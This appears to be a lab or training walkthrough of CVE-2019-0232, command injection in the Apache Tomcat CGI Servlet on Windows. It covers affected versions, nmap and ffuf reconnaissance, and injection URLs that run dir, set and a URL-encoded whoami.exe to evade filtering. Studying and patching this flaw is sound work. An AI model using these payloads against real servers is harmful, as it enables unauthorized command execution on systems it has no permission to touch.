 
### **Overview**

- _CVE-2019-0232_ allows **remote code execution** on Windows systems running _Apache Tomcat_ with `enableCmdLineArguments=true`.
- Affects Tomcat versions:
    - _9.0.0.M1–9.0.17_
    - _8.5.0–8.5.39_
    - _7.0.0–7.0.93_

- Exploits **CGI Servlet input validation flaw** by injecting commands via query string.

---

### **CGI Servlet Summary**

- Middleware enabling Tomcat to run external applications (CGI scripts)
- Scripts typically written in _Perl_, _Python_, or _Batch_
- _Command injection_ possible when query string is passed as _command-line arguments_

---

### **Why Dangerous on Windows**

- Windows systems with `enableCmdLineArguments=true` are vulnerable
- Malicious commands appended via `&` operator can be executed
    - Example:  
        `http://target/cgi/script.bat?&dir`

---

### **Recon and Enumeration**

#### **Nmap Port Scan**
```bash
nmap -p- -sC -Pn 10.129.204.227 --open
```

- Identifies:
    - Tomcat _9.0.17_ on port _8080_
    - AJP _ajp13_ on port _8009_
    - Other open services: SSH, WinRM, SMB

#### **CGI Script Discovery**
```bash
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat
```
- Found script: `welcome.bat`
- Visiting returns:  
    `Welcome to CGI, this section is not functional yet.`


---

### **Exploitation**

#### **Command Injection via Query Parameter**

- Test command:  
    `http://10.129.204.227:8080/cgi/welcome.bat?&dir`
- Returned output of `dir`, confirming injection

#### **PATH is Unset – Use Absolute Paths**

- Inspect with:  
    `http://10.129.204.227:8080/cgi/welcome.bat?&set`
- Environment shows `COMSPEC=C:\Windows\system32\cmd.exe`
- Must _hardcode full executable path_

#### **Bypassing Filters via URL Encoding**

- Attempting this fails:  
    `http://.../welcome.bat?&c:\windows\system32\whoami.exe`
- Use URL encoding to bypass input sanitization:
```bash
http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```

---

### **Key Takeaways**

- Always check for:
    - Vulnerable Tomcat versions
    - CGI Servlet enabled with `enableCmdLineArguments=true`
    - Exposed `.bat` or `.cmd` scripts

- Command injection possible via encoded input when `PATH` is unset
- URL-encoding bypasses newer Tomcat character restrictions
